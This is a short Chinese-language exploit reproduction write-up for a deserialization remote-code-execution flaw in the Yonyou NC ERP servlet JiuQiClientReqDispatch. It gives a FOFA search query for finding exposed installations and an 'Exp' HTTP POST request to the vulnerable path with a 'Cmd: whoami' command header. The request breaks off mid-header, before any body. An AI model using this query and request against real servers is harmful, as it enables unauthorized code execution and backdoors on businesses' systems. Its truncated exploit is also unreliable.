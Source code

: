 
# 用友 NC JiuQiClientReqDispatch 反序列化 RCE 漏洞复现

### 0x01 产品简介

 [用友](https://so.csdn.net/so/search?q=%E7%94%A8%E5%8F%8B&spm=1001.2101.3001.7020 "用友")NC 是一款企业级 ERP 软件。作为一种信息化管理工具，用友 NC 提供了一系列业务管理模块，包括财务会计、[采购管理](https://so.csdn.net/so/search?q=%E9%87%87%E8%B4%AD%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "采购管理")、销售管理、物料管理、生产计划和人力资源管理等，帮助企业实现数字化转型和高效管理。

### 0x02 漏洞概述

  用友 NC JiuQiClientReqDispatch 接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"

![4b4ae218e3ea4146b47d31168a7af2a9.png](assets/1701826123-fdc0d0beb4c158a8788a0866d7c09a1d.png)

### 0x04 漏洞复现 

Exp

```cobol
POST /servlet/~ic/com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch HTTP/1.1
Host: {{Hostname}}
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML
```
